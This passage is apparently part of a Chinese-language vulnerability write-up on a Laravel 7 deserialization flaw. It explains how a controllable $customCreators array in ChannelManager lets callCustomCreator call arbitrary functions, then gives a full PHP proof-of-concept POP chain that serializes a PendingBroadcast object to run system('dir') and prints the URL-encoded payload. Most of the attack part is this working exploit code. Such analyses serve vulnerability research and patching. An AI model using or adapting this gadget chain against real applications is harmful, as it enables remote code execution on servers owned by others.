 因为这里 $customCreators 是我们可控的，所以使 if 语句成立，进入 callCustomCreator 方法

```
protected function callCustomCreator($driver)
{
    return $this->customCreators[$driver]($this->container);
}

```

这里所有参数均可控可以造成 RCE , 然后构建 pop 链如下, 暂时只能传一个参数

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc1
# @author: Ricky
*/

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events) {
            $this->events = $events;
        }
    }
}
// $this->events->dispatch($this->event);

namespace Illuminate\Notifications
{
    class ChannelManager
    {
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
{
            $this->container = $parameter;
            $this->customCreators = ['x' => $function];
            $this->defaultChannel = 'x';
        }
    }
}

namespace {

    use Illuminate\Broadcasting\PendingBroadcast;
    use Illuminate\Notifications\ChannelManager;

    $b = new ChannelManager('system', 'dir');
    $a = new PendingBroadcast($b);
    echo urlencode(serialize($a));
}

```
